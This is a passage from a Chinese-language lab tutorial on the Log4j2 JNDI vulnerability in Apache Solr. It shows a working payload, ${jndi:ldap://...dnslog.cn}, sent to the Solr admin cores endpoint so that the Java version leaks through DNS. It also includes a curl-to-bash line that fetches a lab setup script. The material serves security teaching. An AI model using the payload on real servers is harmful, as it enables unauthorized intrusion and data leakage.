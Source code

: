 ```bash
http://127.0.0.1:8983
```

![图片描述](https://doc.shiyanlou.com/courses/uid454817-20211221-1640098608085)

触发漏洞的方法非常简单，只需要向 Solr 管理员接口的 action 参数发送 Payload ，由于该接口会调用 log4j 记录日志，因此会触发漏洞执行。
该接口如下：

```bash
http://127.0.0.1:8983/solr/admin/cores?action=
```

接下来我们使用 DNSlog 来构造验证 Payload。

> DNS Log 对于大部分渗透测试的同学来说应该会比较熟悉，经常被用于测试盲打盲注类的漏洞。如果你不清楚，可以简单理解为：我们获取一个临时的域名，如果远程服务器尝试访问该域名，就会在 DNS 上留下访问记录，此时我们可以通过查询该记录获取到一些外带信息

首先在浏览器中访问 <http://dnslog.cn>， 然后点击 “Get SubDomain”，你会获得一个随机生成的域名： `xxxxxx.dnslog.cn`:

![图片描述](https://doc.shiyanlou.com/courses/uid454817-20211221-1640098694047)

然后我们构造如下 Payload：(记得使用你获取的域名替换 xxxxxx)

```bash
${jndi:ldap://${sys:java.version}.xxxxxx.dnslog.cn}
```

Payload 含义：`${sys:java.version}` 如果被执行，将返回 Solr 后端使用的 Java 版本号。

我们将以上 Payload 发送到 action 接口，方法是在浏览器中访问如下地址：

```bash
http://127.0.0.1:8983/solr/admin/cores?action=${jndi:ldap://${sys:java.version}.xxxxxx.dnslog.cn}
```

![图片描述](https://doc.shiyanlou.com/courses/uid454817-20211221-1640098756385)

然后我们回到 DNS log 网页，点击 Refresh Record，可以看到新增了一条记录：

![图片描述](https://doc.shiyanlou.com/courses/uid454817-20211221-1640098776400)

其中 `1.8.0_102` 就是后端 Java 的版本号，说明 Payload 成功被执行，说明存在 log4j2 RCE 漏洞。

当然，以上 DNS log 只是作为验证漏洞是否存在的方法之一，而漏洞的利用方式（例如获取远程主机的控制权限）我们将在后文中继续介绍，请继续往下看。

## 漏洞原理分析

打开终端，运行如下代码初始化实验环境：

```bash
curl 'https://labfile.oss.aliyuncs.com/courses/7635/init-2.sh' -s | bash
```

![图片描述](https://doc.shiyanlou.com/courses/uid454817-20211222-1640154488947)

输出如上图所示，表示初始化完成。

打开桌面上的 IDEA，我们后续将通过使用 IDEA 运行 Java 代码，对漏洞进行演示：

